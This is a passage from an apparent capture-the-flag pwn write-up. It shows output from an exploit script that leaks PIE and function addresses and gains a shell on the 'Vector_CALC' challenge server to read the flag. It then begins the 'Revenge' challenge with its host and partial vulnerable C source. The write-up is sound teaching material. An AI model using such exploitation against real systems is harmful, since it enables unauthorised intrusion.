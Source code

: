 
```bash
─   ~/CTF/wannagame/calc                                                                                                                       02:52:23 ─╮
╰─❯ python3 xpl.py                                                                                                                                          ─╯
[+] Opening connection to 45.122.249.68 on port 20017: Done
[*] '/home/w1n-gl0ry/CTF/wannagame/calc/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pie_base :0x55a8e7c74000
[*] v_list array :0x55a8e7c77040
[*] sum :0x55a8e7c77080
[*] faves :0x55a8e7c77098
[*] w1n :0x55a8e7c749d2
[*] system :0x55a8e7c74100
[*] Switching to interactive mode
$ exec 1>&0
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cd /home/user
$ ls
chall
flag-fe1e4f5e9309c30148cdbb9349cc329eda4186949b59d42041340a5e4657f38a.txt
$ cat flag-fe1e4f5e9309c30148cdbb9349cc329eda4186949b59d42041340a5e4657f38a.txt
W1{Ooops,... Pointers, uint64_t, long long, what the heck are they?}
```
-> `FLAG: W1{Ooops,... Pointers, uint64_t, long long, what the heck are they?}`

### 2. Vector_CALC Revenge 

`Host: nc 45.122.249.68 20018`

`Description: I have fixed the w1n function :)`

 `Chall file:` [chall_revenge](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC-Revenge/chall_revenge) 

`chall_revenge.c`

```python
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

#define MAX_FAVES 4
#define MAX_VECTORS 3
struct Vector{
	__uint64_t x;
    __uint64_t y;
    void (*printFunc)(struct Vector*);
};

struct Vector v_list[MAX_VECTORS];
__uint64_t* sum;
void* faves[MAX_FAVES];

void printData(struct Vector* v);

void enterData(){
    struct Vector* v;
    __uint64_t idx;

```